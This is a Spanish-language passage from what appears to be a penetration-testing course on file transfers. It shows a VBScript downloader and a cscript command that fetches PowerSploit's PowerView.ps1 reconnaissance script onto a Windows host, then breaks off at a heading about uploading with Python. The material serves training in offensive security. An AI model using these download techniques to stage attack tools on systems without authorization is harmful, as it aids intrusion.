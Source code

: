 
# **VBscript**

[VBscript](https://en.wikipedia.org/wiki/VBScript)("Microsoft Visual Basic Scripting Edition") es un lenguaje de secuencias de comandos activo desarrollado por Microsoft que está modelado en Visual Basic. VBScript se ha instalado de forma predeterminada en cada versión de escritorio de Microsoft Windows desde Windows 98.

El siguiente ejemplo de VBScript se puede usar en base a[este](https://stackoverflow.com/questions/2973136/download-a-file-with-vbs). Crearemos un archivo llamado`wget.vbs`y guarde el siguiente contenido:

Código:vBscript

```
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with

```

Podemos usar el siguiente comando desde un símbolo del sistema de Windows o PowerShell Terminal para ejecutar nuestro código VBScript y descargar un archivo.

### **Descargue un archivo usando VBScript y cscript.exe**

Transferir archivos con código

```
C:\htb> cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1

```

---

# **Cargar operaciones con Python3**

Si queremos cargar un archivo, necesitamos comprender las funciones en un lenguaje de programación particular para realizar la operación de carga. El python3[Módulo de solicitudes](https://pypi.org/project/requests/)Le permite enviar solicitudes HTTP (obtener, publicar, poner, etc.) usando Python. Podemos usar el siguiente código si queremos subir un archivo a nuestro Python3[SuboadServer](https://github.com/Densaugeo/uploadserver).

### **Iniciar el módulo de servidor de carga de Python**
